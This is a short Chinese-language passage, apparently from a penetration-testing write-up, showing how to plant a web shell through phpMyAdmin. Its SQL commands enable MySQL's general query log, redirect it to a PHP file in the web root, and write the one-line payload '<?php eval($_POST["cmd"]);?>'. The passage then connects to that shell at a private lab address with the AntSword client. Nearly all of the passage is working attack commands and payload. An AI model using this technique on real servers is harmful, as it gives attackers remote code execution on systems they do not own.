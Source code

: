 利用 phpmyadmin 日志

```plain
show variables  like  '%general%';
SET GLOBAL general_log='on'; SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log_file='C:/phpStudy_pro/www/shell.php';
SELECT '<?php eval($_POST["cmd"]);?>'
```

写入一句话

[![](assets/1705301733-c25fbca7345ff9df442b1e32877b1fd5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112141326-b29d1790-b111-1.png)

蚁剑连接

地址：[http://192.168.22.130/shell.php](http://192.168.22.130/shell.php)

密码：cmd

[![](assets/1705301733-31211815f402463ea199856b4e978238.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112141342-bc5ebd92-b111-1.png)
